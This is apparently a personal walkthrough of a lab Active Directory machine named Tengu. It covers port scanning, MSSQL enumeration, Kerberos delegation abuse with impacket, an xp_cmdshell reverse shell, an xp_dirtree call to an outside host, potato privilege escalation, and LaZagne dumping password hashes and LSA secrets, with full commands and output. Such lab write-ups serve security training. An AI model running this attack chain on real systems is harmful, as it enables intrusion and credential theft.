








As usual I will perform a common ports scan over the TCP stack:

```bash
PORT     STATE SERVICE       REASON         VERSION
445/tcp  open  microsoft-ds? syn-ack ttl 64
1433/tcp open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.50.12:1433: 
|     Target_Name: TENGU
|     NetBIOS_Domain_Name: TENGU
|     NetBIOS_Computer_Name: SQL
|     DNS_Domain_Name: tengu.vl
|     DNS_Computer_Name: SQL.tengu.vl
|     DNS_Tree_Name: tengu.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-17T03:23:13
| Not valid after:  2056-03-17T03:23:13
| MD5:     3b07 0e50 3193 e4a6 c896 b605 70c4 d235
| SHA-1:   6128 90b4 5f36 cb8f 46fd cdbf f8ce dc03 db08 3377
| SHA-256: e7e3 281d b739 d978 24bc 5cb4 fd9a 0524 614f ca9c cc93 74fe ed84 801c 5415 6aad
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQW2kPJBSe1IhFbHqqwKwfbjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzE3MDMyMzEzWhgPMjA1NjAzMTcwMzIzMTNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBAMZZ/35L
| wkCeFXfjE8uZEnFLWc+v61K2F+y0UihwzJkvjsAVvHqgM8HT1lbiOeBiWd6P8q1c
| 9X5KrRnKS01muJsWiEnBpsQ3kRx5+va19Gry/L24a/stV74pVzFQ+yLAZ8JbTdsL
| fdnmg4g2mItNZhyLeAfa9zlUDQLUtb/YVWO+x2dfYYtOb/dT+7zjDZ15ZSoiVbmb
| v3E5OJmhOycOh+Bjb2hqzsQUW5V42A8ZMSPPSDFJG+NAyVTW1RWtW3iXg+facrDq
| yJqYeakSlXtFHIp6c7PP+7bcKhGni8epI4Hm4aN8ENST8FE4zy5h2k5Z/3w21CNy
| seTxyi+gDiCQvJmB0vadkLHEfPb+M4LWd5rY0wl043X4cybAGj3ySoevF43NZHqK
| eVLnEjhaV/RvroB/F3BamvsnTsmeFMp1jr2kAzvyBCHB+r9SEgvlvxhIGYueHHkV
| 9SYvNrFUxQPRnSKkgmLVYLI1sG0jKW+NpxzsgbL/o6I4ryonHaSlrX1IJQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQAX5MSxpcsqOFB9Sfv3WBJxpty9PufJsX8lqeFD
| hE3CuVyYVGR69qnE8ar9mf6QskI2YWl/+BAL7dmFHH77OPSp/UtNUKLXl1Le2Zha
| GGqxt3OjpxwpvGFM/3Syi49zxwizhgTpj0BduIZxCoh8vpk3SlLl3994H/l13Vlz
| mpF3glMcOAAHWrhwYcToMl9/79C5S/MZyheIVAyEM6vJOeZmh4WbbHV6qlWWQFjY
| 3TJg/L7Ndv0PAwukgMyOGxQQq7K3/UdT55j8/FhKw2ngT9ALl+yauZofa2OJAz2t
| aCtdMcH9UQqCMKptpLGmX7sC5YHQrGWHlSUC/m5qAOl4U6ekTkwItY0laDMbd14u
| qznfyJcpHV70mnURpaG0OY7CJGT7roeet6AVCtKrLikhcc30xFJHk0T11sstzDrE
| 0iQteZCPvzuSl8HsPIO87Hdx4wDqKdCdKGsASQQ9ziB6bJkuHev0CggTejpZKgJK
| 40pYwf5luMu2nfGW38NaMgzaYEM=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-17T14:05:28+00:00; +1s from scanner time.
| ms-sql-info: 
|   192.168.50.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Issuer: commonName=SQL.tengu.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-16T03:20:59
| Not valid after:  2026-09-15T03:20:59
| MD5:     9ea4 c911 984f cc89 675d dd72 b265 f754
| SHA-1:   194d 6ab6 67d5 79cf c3cf e06f 040e 0d93 62f2 13e8
| SHA-256: b9c1 f570 3eac 8726 3edb 167a afb7 6825 cd66 716a 96df b623 bef2 d672 ea57 08e2
| -----BEGIN CERTIFICATE-----
| MIIC3DCCAcSgAwIBAgIQeoDs4tNLnZlBULnHPoIemTANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxTUUwudGVuZ3UudmwwHhcNMjYwMzE2MDMyMDU5WhcNMjYwOTE1
| MDMyMDU5WjAXMRUwEwYDVQQDEwxTUUwudGVuZ3UudmwwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQDF0iU+COvKiIkWNjKAwLqGxniWWN1peGbj37wEVAAP
| BWreOHkUQNWL1aHFIdyyCyDtleRcabs57v3HM58tHUECmdWRIzQ+ZqsHzSD+w58L
| RAzPCDO7K4CH9zm9debtpwEwCKM8/LxsCW9DrnnCysqvnb53oxN0sGPFJEABd1SN
| EBy21BuAERbBQujTN1uueu+5hfKUc0Yp/NxuT8rfqVNUqkRG5A+Oi/FRTyxUHcyg
| o8Gswx+R+M0VaaOfhKLmebeQp3lclQq5eJE6CrNTniTojQJmNN5nhkw9rXmob0br
| 42twadxrrKn1FOyzuhnDdCDd4LslMjvcw521IaZTgbcRAgMBAAGjJDAiMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
| ARg/e5V1jKS8KdHhgBmxCeZ1pZL9FFT1XBGgCrPds3wAsU62MXF3Cv1uZbEuS79o
| VvfxCfdkwHc9iaNadJCNKMfnuG7iGcblWHnOdvV1OKnfDQAgdiArm7IYKjvikBHf
| dPF0Cks+FkINe4GkVW2cqrWHJK/0vrJcGkpRQQHZoMrM2gVnVl7j37V8jRuKX2ok
| 7a6rPvq7yoqH29y/kg856Nv6t391RtjABXpKw4/EFLDvGijcDTYEfvp4QFQzDnzw
| kMiTQAYs4HQ3YLJIKuv4qzMGCJI/kxcp9P5KyE0ofXjjJ9vAtrpywzRcVVML6ZU1
| pN2luzwxBjJJNzckc2oEvA==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: SQL
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: SQL.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-17T14:04:48+00:00
|_ssl-date: 2026-03-17T14:05:28+00:00; +1s from scanner time.
5985/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/17%OT=445%CT=%CU=%PV=Y%G=N%TM=69B95FA7%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10E%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FB%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 28.899 days (since Mon Feb 16 17:31:03 2026)
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46381/tcp): CLEAN (Timeout)
|   Check 2 (port 49155/tcp): CLEAN (Timeout)
|   Check 3 (port 43138/udp): CLEAN (Timeout)
|   Check 4 (port 16476/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: SQL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:21:af (VMware)
| Names:
|   SQL<00>              Flags: <unique><active>
|   TENGU<00>            Flags: <group><active>
|   SQL<20>              Flags: <unique><active>
| Statistics:
|   00 50 56 94 21 af 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2026-03-17T14:04:48
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

TRACEROUTE
HOP RTT      ADDRESS
1   13.53 ms SQL.tengu.vl (192.168.50.12)

```

# MSSQL

Now immediately(by using the connector credentials) I can see there are 2 custom DBs in the cluster:



And I have some credentials:

```sql
QL (nodered_connector  nodered_connector@Demo)> SELECT * FROM Demo.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
Demo            dbo            Users        b'BASE TABLE'   
SQL (nodered_connector  nodered_connector@Demo)> SELECT * FROM Dev.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
Dev             dbo            Task         b'BASE TABLE'   
SQL (nodered_connector  nodered_connector@Demo)> select * from users;
  ID   Username          Password                                                              
----   ---------------   -------------------------------------------------------------------   
NULL   b't2_m.winters'   b'af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147'   
SQL (nodered_connector  nodered_connector@Demo)> use Dev
ENVCHANGE(DATABASE): Old Value: Demo, New Value: Dev
INFO(SQL): Line 1: Changed database context to 'Dev'.
SQL (nodered_connector  nodered_connector@Dev)> select * from tasks;
ERROR(SQL): Line 1: Invalid object name 'tasks'.
SQL (nodered_connector  nodered_connector@Dev)> select * from task;
Last_Backup   Success   
-----------   -------   
b'Today'      b'True'   
SQL (nodered_connector  nodered_connector@Dev)> 


```

I also did some extra enumeration, trying to escape but so far nothing interesting came out except there is one specific User which is Owner of a database, this might help to get a escape point?

```bash
---------   --------   ---------------   ----------   -------   -------   
SQL (nodered_connector  nodered_connector@Dev)> enum_logins
name                type_desc   is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin   
-----------------   ---------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------   
sa                  SQL_LOGIN             1          1               0             0            0              0           0           0           0   
nodered_connector   SQL_LOGIN             0          0               0             0            0              0           0           0           0   
SQL (nodered_connector  nodered_connector@Dev)> enum_users
UserName             RoleName   LoginName           DefDBName   DefSchemaName       UserID                                                           SID   
------------------   --------   -----------------   ---------   -------------   ----------   -----------------------------------------------------------   
dbo                  db_owner   NULL                NULL        dbo             b'1         '   b'0105000000000005150000003b00e1ebf38584df4e86e8f652040000'   
guest                public     NULL                NULL        guest           b'2         '                                                         b'00'   
INFORMATION_SCHEMA   public     NULL                NULL        NULL            b'3         '                                                          NULL   
nodered_connector    db_owner   nodered_connector   Dev         dbo             b'5         '                           b'd8ac995211057c4d8ccd8589ca58c826'   
sys                  public     NULL                NULL        NULL            b'4         '                                                          NULL   
test                 public     NULL                NULL        dbo             b'6         '                           b'e68beb310798fa4ab5a65f2f600b8377'   
SQL (nodered_connector  nodered_connector@Dev)> enum_owner
Database   Owner               
--------   -----------------   
master     sa                  
tempdb     sa                  
model      sa                  
msdb       sa                  
Demo       TENGU\t1_c.fowler   
Dev        TENGU\t1_c.fowler   
SQL (nodered_connector  nodered_connector@Dev)> enum_users
UserName             RoleName   LoginName           DefDBName   DefSchemaName       UserID                                                           SID   
------------------   --------   -----------------   ---------   -------------   ----------   -----------------------------------------------------------   
dbo                  db_owner   NULL                NULL        dbo             b'1         '   b'0105000000000005150000003b00e1ebf38584df4e86e8f652040000'   
guest                public     NULL                NULL        guest           b'2         '                                                         b'00'   
INFORMATION_SCHEMA   public     NULL                NULL        NULL            b'3         '                                                          NULL   
nodered_connector    db_owner   nodered_connector   Dev         dbo             b'5         '                           b'd8ac995211057c4d8ccd8589ca58c826'   
sys                  public     NULL                NULL        NULL            b'4         '                                                          NULL   
test                 public     NULL                NULL        dbo             b'6         '                           b'e68beb310798fa4ab5a65f2f600b8377'   
SQL (nodered_connector  nodered_connector@Dev)> xp_dirtree \\10.10.14.105\figa
subdirectory   depth   file   
------------   -----   ----   
SQL (nodered_connector  nodered_connector@Dev)> 

```

But back on that password seems like it is a quick and easy SHA256:  


A quick check shows that this user has no particular permissions on this server and for this reason I will move on to the AD part:

```bash
└─$ netexec smb SQL -u t2_m.winters -p Tengu123 --shares
SMB         192.168.50.12   445    SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl) (signing:False) (SMBv1:None)
SMB         192.168.50.12   445    SQL              [+] tengu.vl\t2_m.winters:Tengu123 
SMB         192.168.50.12   445    SQL              [*] Enumerated shares
SMB         192.168.50.12   445    SQL              Share           Permissions     Remark
SMB         192.168.50.12   445    SQL              -----           -----------     ------
SMB         192.168.50.12   445    SQL              ADMIN$                          Remote Admin
SMB         192.168.50.12   445    SQL              C$                              Default share
SMB         192.168.50.12   445    SQL              IPC$            READ            Remote IPC
                                                                                                 
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb SQL -u t2_m.winters -p Tengu123 --users 
SMB         192.168.50.12   445    SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl) (signing:False) (SMBv1:None)
SMB         192.168.50.12   445    SQL              [+] tengu.vl\t2_m.winters:Tengu123 
                                                                                                 
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec winrm SQL -u t2_m.winters -p Tengu123 --users
usage: netexec [-h] [--version] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL]
               [--verbose] [--debug] [--no-progress] [--log LOG] [-6] [--dns-server DNS_SERVER]
               [--dns-tcp] [--dns-timeout DNS_TIMEOUT]
               {ssh,mssql,ftp,nfs,rdp,wmi,vnc,ldap,smb,winrm} ...
netexec: error: unrecognized arguments: --users
                                                                                                 
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec winrm SQL -u t2_m.winters -p Tengu123        
WINRM       192.168.50.12   5985   SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl)
WINRM       192.168.50.12   5985   SQL              [-] tengu.vl\t2_m.winters:Tengu123
                                                                                        
```

I will move back to the NODERED page and come back here later on.

# Back on Track

Now with the GMSA I am trying to perform a RBCD on the MSSQL but it is failing to impersonate Administrator:

```bash
└─$ impacket-getST -spn 'MSSQL/SQL.TENGU.VL' -impersonate 'Administrator'  -hashes :d4210ee2db0c03aa3611c9ef8a4dbf49 TENGU.VL/'NODERED$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Probably user NODERED$ does not have constrained delegation permisions or impersonated user does not exist

```

Now Protected users cannot be impersonated at all:



Now again the Admins of the MSSQL are only 2 where one (Tier1 of C.Flower can't be impersonated) but the Tier 1 account for M.Winters is not within the Protected users that's why it should work right?



Now here I noticed I was using the wrong user but for some reasons I was also able to obtain the St for Administrator, which is strange counting that it is Protected?

```bash
└─$ impacket-getST -spn 'MSSQLSvc/SQL.tengu.vl' -impersonate 't1_m.winters' -hashes :43fbc277b8bf97b594c6359104a084e8 TENGU.VL/'gMSA01$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating t1_m.winters
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in t1_m.winters@MSSQLSvc_SQL.tengu.vl@TENGU.VL.ccache
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tools/KeyTabExtract]
└─$ impacket-getST -spn 'MSSQLSvc/SQL.tengu.vl' -impersonate 'Administrator' -hashes :43fbc277b8bf97b594c6359104a084e8 TENGU.VL/'gMSA01$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@MSSQLSvc_SQL.tengu.vl@TENGU.VL.ccache

```

Now even if the Admin ST worked it is not allowing me to authenticate, and i suspect the reason is caused by the Protected users as they can't login or be impersonated. Now if the Winters ST works (BTW it has been created on the same way) then that's the reason why.

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ impacket-mssqlclient Administrator@SQL.tengu.vl -k -no-pass -windows-auth
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(SQL): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.

```

Indeed it worked now and it confirms my theory:

```bash
└─$ klist
Ticket cache: FILE:/home/user/Downloads/Tengu/t1_m.winters@MSSQLSvc_SQL.tengu.vl@TENGU.VL.ccache
Default principal: t1_m.winters@TENGU.VL

Valid starting       Expires              Service principal
03/17/2026 16:00:24  03/18/2026 02:00:24  MSSQLSvc/SQL.tengu.vl@TENGU.VL
    renew until 03/18/2026 16:00:23
                                                                                                 
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ impacket-mssqlclient t1_m.winters@SQL.tengu.vl -k -no-pass 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'master'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (TENGU\t1_m.winters  dbo@master)> 

```

And now I can enable the XP_CMDSHELL and get a NC shell back to a listener on the Linux machine, the reason is because I can't reach back my machine without setting a port forwarding.





Now i need to setup a port forwared so I can upload godpotato and grab all the stuff I need so i set a listener in Ligolo to point back on my machine:  


And now by using the internal IP of the NODERED (where the NC is listening, and that custom 8888 TCP port) I am able to upload the files via HTTP server.



And now I have some secrets:

```bash
PS C:\temp> ./DeadPotato-NET4.exe -cmd 'C:\Temp\Lazagne.exe'

      _.--,_
   .-'      '-.          _           _ 
  /            \        | \ _  _  _||_) _ _|_ _ _|_ _ 
 '          _.  '       |_/(/_(_|(_||  (_) |_(_| |_(_)
 \      """" /  ~(      Open Source @ github.com/lypd0
  '=,,_ =\__ `  &             -= Version: 1.2 =-
        ""  ""'; \\\ 


_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

(*) Initiating procedure as NT AUTHORITY\NETWORK SERVICE
(+) Is impersonation possible in current context? YES
(+) Currently running as user: NT AUTHORITY\SYSTEM
(+) Elevated process started with PID 5396

-={          OUTPUT BELOW         }=-


|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 1415bc56-749a-4f03-8a8e-9fb9733359ab
[+] System masterkey decrypted for 236fb638-82cd-4a22-b9e7-6745744da5bd

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:73db3fdd24bee6eeb5aac7e17e4aba4c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a4be65de5834374c1df6b157d6bf8d64:::
yovecio:1001:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   DF B4 9B CB 1A 3B 32 0E 90 D4 A8 92 D5 EF 33 0A    .....;2.......3.
0020   CF 3A 53 D4 AE 06 37 EB 91 6B 51 EA 79 8F 7B 19    .:S...7..kQ.y.{.
0030   8D FC 2B 7C 64 4A EE 0E D2 15 03 29 98 07 CB A3    ..+|dJ.....)....
0040   7C DA 2D 0E F5 4B FF 9B 9C A9 E2 C8 72 EE 7B 23    |.-..K......r.{#
0050   1B 2A 1C 69 06 BA E5 53 2F A7 70 B5 C1 A5 FA 0A    .*.i...S/.p.....
0060   6A FA 9B 12 EA 81 95 B3 D3 5B BC EB 49 01 4F 8A    j........[..I.O.
0070   85 44 50 96 13 93 B7 03 02 55 18 B6 6F 29 58 C4    .DP......U..o)X.
0080   AA 43 BD 43 F7 0C 9D 97 7E 86 CF 6A C7 1C 56 9F    .C.C....~..j..V.
0090   90 B5 4A 66 5E 74 4B 42 78 0F 2B 57 AF 47 C9 F2    ..Jf^tKBx.+W.G..
00A0   D6 43 F6 29 2B 62 10 62 DA 02 F6 F0 F1 15 23 6F    .C.)+b.b......#o
00B0   3D 9F 74 94 21 3F F3 69 0C CB 97 28 AF 5F 08 E1    =.t.!?.i...(._..
00C0   9D 44 88 94 09 37 D7 B6 F3 43 C5 A5 63 13 B0 D0    .D...7...C..c...
00D0   4B 90 9A 50 C8 F4 93 83 21 EE 24 3B 98 25 59 C3    K..P....!.$;.%Y.
00E0   51 6B 3C DF ED 39 CA 0C 80 14 FF F0 FE 9B A7 33    Qk<..9.........3
00F0   24 DD C7 95 FC D3 64 29 2E 56 CF 01 24 90 F4 9A    $.....d).V..$...
0100   00 0C 80 6D F4 73 11 BF 40 6A 53 2B A2 B1 33 77    ...m.s..@jS+..3w

DefaultPassword
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   53 8C D6 49 CD 69 45 CB A4 83 4E 68 EC C6 A7 D3    S..I.iE...Nh....

DPAPI_SYSTEM
0000   01 00 00 00 C9 C2 33 33 05 55 5B 68 C7 29 FD 09    ......33.U[h.)..
